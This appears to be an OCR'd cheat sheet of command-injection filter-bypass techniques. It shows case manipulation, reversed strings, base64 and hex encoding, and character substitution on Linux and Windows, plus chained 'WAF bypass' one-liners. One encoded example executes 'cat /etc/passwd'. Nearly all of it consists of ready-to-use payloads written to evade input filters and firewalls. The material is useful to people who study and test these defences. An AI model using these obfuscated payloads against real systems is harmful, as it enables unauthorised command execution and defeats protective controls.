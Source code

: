 
## === CASE MANIPULATION ===
* Windows (case-insensitive): WhOaMi → works as whoami
* Linux (needs conversion): 
  $(tr "[A-Z]" "[a-z]"<<<"WhOaMi") → converts to whoami
  $(a="WhOaMi";printf %s "${a,,}") → alternative method

## === REVERSED COMMANDS ===
* Linux: 
  echo 'whoami' | rev → imaohw
  $(rev<<<'imaohw') → executes whoami
* Windows:
  "whoami"[-1..-20] -join '' → imaohw
  iex "$('imaohw'[-1..-20] -join '')" → executes whoami
Tip
```
If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.
```
## === ENCODED COMMANDS ===
* Base64 (Linux):
  echo -n 'cat /etc/passwd' | base64 → Y2F0IC9ldGMvcGFzc3dk
  bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk) → executes command
* Base64 (Windows):
  [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami')) → encodes
  iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))" → decodes/executes
Tip
```
Note that we are using <<< to avoid using a pipe |, which is a filtered character.
```
## === PRO TIPS ===
1. Replace filtered chars:
   %09 (TAB) → spaces
   <<< → pipes |
2. Alternative tools:
   openssl enc -base64 if base64 blocked
   xxd for hex encoding
3. WAF bypass combo:
   $(tr "[A-Z]" "[a-z]"<<<$(rev<<<$(base64 -d<<<WYo...)))
4. Always:
   - Test locally first
   - Avoid URL-decoded special chars
   - Prepare 2-3 obfuscation methods

## === EXAMPLES ===
* Linux complex bypass:
  $(a="WhO$(echo am)i";printf %s "${a,,}"|rev) → whoami
* *Windows complex bypass:
  iex "$(-join[char[]](0x77,0x68,0x6f,0x61,0x6d,0x69))" → whoami via hex
